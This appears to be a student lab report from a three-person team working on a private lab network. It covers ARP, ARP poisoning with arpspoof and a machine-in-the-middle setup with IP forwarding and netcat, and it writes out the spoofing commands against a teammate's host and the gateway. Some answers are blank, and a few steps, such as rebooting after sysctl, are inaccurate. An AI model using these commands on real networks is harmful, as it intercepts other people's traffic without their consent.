


Team:
- Maximilian Nowak
- Thomas Winter
- Simon Nenning

- Simons's mac: 6c:0b:84:3c:a3:ae Host C
- Thommy's mac: 6c:0b:84:3c:a4:47 Host A
- Maxl's mac: 6c:0b:84:3c:a3:de Host B
   
- Simons's ip: 192.168.10.11 Host C
- Thommy's ip: 192.168.10.12 Host A
- Maxl's ip: 192.168.10.13 Host B

# 1 Reconnaissance
### - *What is the ip address of your PC ?*
  __192.168.10.13/24__
### - *What is the default gateway ?*
  __192.168.10.254__
### - *Over which physical interface are the PCs communicating with each other and the gateway*- *What is the ip address of your PC*
  __eno1__ 

# 2 ARP
### - *How is this table looking on your host ?*
  
### - *What changes in this table when pinging a host ?*
  __The host we pinged was added to the table__
  
### - *Use Wiresharkto trace ARP network traffic while pinging a host What can you determine about the functionality of ARP from this trace?*
  __Arp asks about the mac adress to this ip because we are in the same local lan__
  

# 3 ARP Poising
### - Find out how to start ``arpspoof`` to achieve the reuslt described above 
#### ``man arpspoof`` 
  
``$ arpspoof -i [Network Interface Name] -t [Victim IP] [Router IP]``

``$ arpspoof -i [eno1] -t [192.168.10.12] [192.168.10.13]``

### - Show the attack was succesful
__in this screenshot we see that host B now has the mac of host c__ 
 

__in this screenshot we see the spoofed response in detail__
 
__for further inspection the arp table with the spoofed mac to ip address__

# 4 Machine-in-the-middle

## A)

### -What can you see in Wireshark on host A ?
``$ nc -4 192.168.10.13 40000 ``

### -What can you see in Wireshark on host B ?
``$ sudo nc -l 40000``

### What can you see in Wireshark on host C ?
__Nothing to see here__  
## B)

### - What are the necessary commands ?

#### - Host A
``$ nc -4 192.168.10.13 40000``
#### - Host B
`` $ sudo nc -l 40000``
#### - Host C
`` $ sudo arpspoof -i eno1 -t 192.168.10.12 192.168.10.13 -r``

## C)

### - What can you see in Wireshark on host A ?

### - What can you see in Wireshark on host B ?

### - What can you see in Wireshark on host C ?

## D) 
#### - Host A
``$ curl neverssl.com``
__because we want to see the traffic__
#### - Host B
__nothing to do here__ 
#### - Host C
For enabling the packet forwarding
`` $ sysctl -w net.ipv4.ip_forward=1 ``
then we should reboot
`` $ sudo reboot ``
Then enable the arpspoof with forwarding
`` $ sudo arpspoof -i eno1 -t 192.168.10.12 192.168.10.254 -r``

#### Host A wireshark 

__https curl__

#### Host C wireshark 

